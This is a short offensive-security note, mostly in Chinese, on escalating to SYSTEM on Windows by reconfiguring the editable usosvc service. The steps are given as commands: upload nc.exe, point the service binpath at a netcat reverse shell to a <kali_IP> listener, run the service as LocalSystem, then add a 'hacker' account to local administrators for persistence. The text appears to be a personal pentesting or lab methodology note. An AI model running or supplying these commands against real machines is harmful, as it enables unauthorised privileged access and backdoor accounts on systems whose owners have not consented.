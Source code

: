 如果对某个服务拥有编辑的权限(winPEAS输出查看)，修改其执行路径指向我们的nc.exe，可以很快的实现提权。
Steps also described here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc
*由系统服务弹回的shell会在几秒内关闭*
1. upload `nc.exe` to target
2. `sc config usosvc binpath= "C:\Inetpub\wwwroot\nc.exe -nv <kali_IP> 9988 -e C:\Windows\System32\cmd.exe"`
3. `sc config usosvc  obj= ".\LocalSystem" password= ""`
	* 因为无需二次使用，所以不设密码
4. `sc config usosvc start= "demand"`
5. `nc -lvp 9988` (setup listener on kali)
6. `net start usosvc`
**before privileged shell shuted**
```powershell
# add new user
net user hacker h@ck3r%93 /add
net localgroup administrators hacker /add
```
这时你可以添加RDP用户，开放RDP/SSH服务来连接该机器
#building 如何打开Windows主机的RDP/SSH服务